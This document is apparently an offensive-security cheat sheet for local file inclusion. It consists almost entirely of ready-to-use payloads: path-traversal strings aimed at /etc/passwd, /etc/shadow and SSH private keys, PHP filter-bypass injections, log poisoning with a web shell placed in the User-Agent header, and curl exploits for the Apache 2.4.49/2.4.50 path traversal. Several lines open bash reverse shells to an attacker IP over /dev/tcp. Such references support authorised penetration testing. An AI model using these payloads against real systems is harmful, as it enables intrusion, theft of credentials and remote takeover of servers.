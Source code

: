 LFI Common Files
---
#LFI #files #RFI

```lists
../../../../../../../etc/passwd
../../../../../../../etc/passwd?
../../../../../../../etc/passwd%00
../../../../../../../etc/passwd^^
.[\\./.\\./.\\./.\\./etc/passwd](file://./etc/passwd)
....................//etc/passwd
....//....//....//....//....//....//....//....//....//....//....//..../etc/passwd
..///..////etc/passwd
..[\\..\\..\\..\\..\\..\\/etc/passwd](file://../../../../../etc/passwd)
..[\\\..\\\..\\\..\\\..\\\/etc/passwd](file://../../../../etc/passwd)
.\/\.\.\/\.\/etc/passwd
../../../../../../../proc/self/cmdline
../../../../../../../proc/self/environ
/etc/passwd
/etc/hosts
/proc/self/environ
/proc/version
/proc/cmdline
/proc/self/cmdline
/etc/issue
/var/www/.htaccess
/var/www/.htpasswd
/etc/shadow
/etc/group
/etc/motd
/etc/mysql/my.cnf
/etc/apache2/apache2.conf
/etc/apache2/conf/httpd.conf
../../../../../../home/USERNAME/.ssh/id_rsa
/var/log/auth.log #log poisoning via SSH
/etc/apache2/sites-available/000-default.conf
/windows/win.ini
```

Windows:

```text
c:\apache\logs\access.log
c:\apache\logs\error.log
C:\inetpub\wwwroot\
```

Word / file lists:

```lists
/usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt
/usr/share/seclists/Fuzzing/LFI/LFI-LFISuite-pathtotest.txt
/usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt
```

Do 1-1000 to enum processes:
---
#enum #enumeration #process #process-enumeratio 

```shell
for i in $(seq 900 1000); do curl $TARGET_URL/?file=../../../../proc/$i/cmdline -o -; echo " PID => $i"; done
```

Bypass simple filters and other bypasses:
---
#lfi #filter #bypass

```php
' and die(show_source('/etc/passwd')) or '
' and die(system("/bin/bash -c 'bash -i >& /dev/tcp/$TARGET_IP/4444 0>&1'")) or ' #fo rev shell
php://fd/3php://fd/3
php://filter/read=string.toupper|string.rot13|string.tolower/resource=file:///etc/passwd
data:text/plain,<?php phpinfo(); ?>data:text/plain,<?php phpinfo(); ?>
```


```bash
#execute id command
curl -s --path-as-is "$TARGET_URL/index.php?page=data://text/plain,<?php%20echo%20system('id');?>"
#read the contents of index.php
curl -s --path-as-is "$TARGET_URL/index.php?page=php://filter/convert.base64-encode/resource=../../../../../../var/www/html/index.php"
```

Log poisoning:
```burp-suite
User-Agent: CHROME <?php echo system($_GET['exec']);?>
```
Then execute the poisoned log file by including it:
```bash
#linux
curl -s --path-as-is $TARGET_URL/../../../../../../../../../var/log/apache2/access.log&exec=ls
#windows using xampp
curl -s --path-as-is $TARGET_URL/../../../../../../../../../xampp/apache/logs/access.log&exec=dir
```


Apache 2.4.49 / Apache 2.5.50 Path traversal and RCE:
---
#apache-rce #apache-2449 #apache-2550 
read /etc/passwd:
```bash
curl -s --path-as-is -d "echo Content-Type: text/plain; echo; " "$TARGET_IP/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"
```
or
```bash
curl "http://$TARGET_IP/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd" --data 'echo Content-Type: text/plain; echo;' -s
```
execute /bin/bash for a reverse shell in 2.4.49:
```bash
curl -s --path-as-is -d "echo Content-Type: text/plain; echo; bash -c \"bash -i >& /dev/tcp/$LOCAL_IP/4444 0>&1\"" "$TARGET_IP/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh"
```
and for 2.4.50:
```bash
curl -s --path-as-is -d "echo Content-Type: text/plain; echo; bash -c \"bash -i >& /dev/tcp/$LOCAL_IP/4444 0>&1\"" "$TARGET_IP/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/bash"
```